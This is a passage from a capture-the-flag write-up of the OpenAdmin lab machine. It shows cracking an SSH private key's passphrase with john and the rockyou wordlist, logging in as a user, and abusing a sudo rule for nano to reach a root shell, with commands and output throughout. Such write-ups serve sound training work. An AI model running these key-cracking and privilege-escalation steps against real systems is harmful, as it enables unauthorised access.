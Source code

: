 ```
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

Using john we can extract and crack the hash of the rsa private-key:
```console
root@silence:~# ssh2john joanna.key > joanna-key.hash
root@silence:~# john joanna-key.hash --wordlist=/usr/share/wordlists/rockyou.txt
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
bloodninjas      (joanna.key)
```
With the password for the SSH-key cracked we can finally login via SSH and hopefully get user.txt:
```console
ssh -i joanna.key joanna@10.10.10.171
Enter passphrase for key 'joanna.key': bloodninjas
Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ cat user.txt
c9b2c***************************
```

## Privesc to root
Checking the sudo privileges of joanna we have our privilege escalation path:
```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Checking out [GTFObins](https://gtfobins.github.io/gtfobins/nano/#shell), we have a quick way to get a shell as root.
![GTFObin nano](/assets/htb/OpenAdmin/gtfobin-nano.png)

```console
joanna@openadmin:~$ sudo nano /opt/priv
```
